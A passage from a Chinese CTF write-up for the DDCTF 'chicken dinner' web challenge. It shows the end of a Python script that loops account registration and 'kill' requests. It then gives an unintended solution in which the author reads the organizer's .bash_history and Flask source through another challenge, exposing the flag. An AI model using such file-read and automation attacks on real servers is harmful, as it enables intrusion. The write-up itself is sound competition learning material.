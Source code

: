 ```

    print("Status code:   %i" % response.status_code)
    print("Response body: %s" % response.content)


if __name__ == '__main__':
    while True:
        try:
            id, ticket = register_pay()
            kill(id, ticket)
            time.sleep(0.5)
        except Exception as e:
            print e
```

杀完之后就有flag

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f7649110284387ed.png)

### <a name="header-n58"></a>大吉大利,今晚吃鸡~ 非预期解法

赛后看了其他师傅的wp，发现有些师傅以为这道考的是golang的整形溢出+批量kill小号，其实看到出题人的源码之后才知道。出题人是用python(flask)模拟了一个golang整形溢出的web环境，并且吃鸡战场的本意是想考hash长度扩展攻击（心情复杂.jpg）。发现这点原因是通过读mysql那道题的.bash_history可以发现出题人把这两道题放在同一台服务器上的。

[![](https://p5.ssl.qhimg.com/t014b556bd3c6b05bc9.png)](https://p5.ssl.qhimg.com/t014b556bd3c6b05bc9.png)

实际读一下，可以发现web2对应的是mysql题

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01556063e5d267ccc2.png)

web1对应的是吃鸡题

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01c23a530764ce9e92.png)

在/home/dc2-user/ctf_web_1/web_1/app/main/views.py可以把部分主干代码都读出来(工具问题，换个工具应该可以读全)，这里已经有可以看到flag了

```
# coding=utf-8

from flask import jsonify, request,redirect
from app import mongodb
from app.unitis.tools import get_md5, num64_to_32
from app.main.db_tools import get_balance, creat_env_db, search_bill, secrity_key, get_bill_id
import uuid
from urllib import unquote

mydb = mongodb.db

flag = '''DDCTF`{`chiken_dinner_hyMCX[n47Fx)`}`'''

def register():

    result = []
    user_name = request.args.get('name')
    password = request.args.get('password')

    if not user_name or not password:
        response = jsonify(`{`"code": 404, "msg": "参数不能为空", "data": []`}`)
        return response
    if not len(password)&gt;=8:
```